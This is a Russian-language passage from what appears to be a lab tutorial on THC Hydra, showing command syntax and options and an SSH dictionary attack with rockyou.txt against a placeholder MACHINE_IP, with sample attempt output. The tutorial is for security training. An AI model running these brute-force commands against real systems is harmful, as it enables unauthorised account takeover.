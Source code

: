 Мы хотим автоматизированный способ перебрать общие пароли или записи из списка слов; вот вам THC Hydra. Hydra 
поддерживает множество протоколов, включая SSH, VNC, FTP, POP3, IMAP, SMTP и все методы, связанные с HTTP. Вы можете 
узнать больше о THC Hydra, присоединившись к комнате Hydra . Общий синтаксис командной строки следующий:  
```commandline
hydra -l username -P wordlist.txt server service
```
 где мы указываем следующие параметры:

- -l username: -lдолжно предшествовать username, т.е. имени входа цели. Вам следует опустить эту опцию, если служба 
не использует имя пользователя.
- -P wordlist.txt: -Pпредшествует wordlist.txtфайлу, содержащему список паролей, которые вы хотите попробовать с 
  указанным именем пользователя.
- server— имя хоста или IP-адрес целевого сервера.
- service указывает на службу, в которой вы пытаетесь запустить атаку по словарю.


Рассмотрим следующие конкретные примеры:
```commandline
hydra -l mark -P /usr/share/wordlists/rockyou.txt MACHINE_IP ssh 
```
будет использовать mark в качестве имени пользователя при переборе предоставленных паролей на сервере SSH.

```commandline
hydra -l mark -P /usr/share/wordlists/rockyou.txt ssh://MACHINE_IP
```
идентичен предыдущему примеру. MACHINE_IP ssh то же самое, что и ssh://MACHINE_IP.
Вы можете заменить его ssh на другое имя протокола, например rdp, vnc, , ftp, pop3или на любой другой протокол, 
поддерживаемый Hydra .

Есть несколько дополнительных необязательных аргументов, которые вы можете добавить:

-V или -vV, для verbose, заставляет Hydra показывать комбинации имени пользователя и пароля, которые были опробованы.
Такая многословность очень удобна для наблюдения за прогрессом, особенно если вам все еще нужно быть более уверенным 
в синтаксисе командной строки. 
-d, для отладки, предоставляет более подробную информацию о том, что происходит. Отладочный вывод может избавить вас 
от многих разочарований; например, если Hydra попытается подключиться к закрытому порту и время ожидания истекло, 
-dэто будет немедленно обнаружено.  
В окне терминала ниже мы используем Hydra , чтобы найти пароль имени пользователя alexander, разрешающего доступ 
через SSH. 

Терминал AttackBox
```commandline
root@AttackBox# hydra -l alexander -P /usr/share/wordlists/rockyou.txt ssh://MACHINE_IP -V
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-15 13:39:52
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://MACHINE_IP:22/
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
```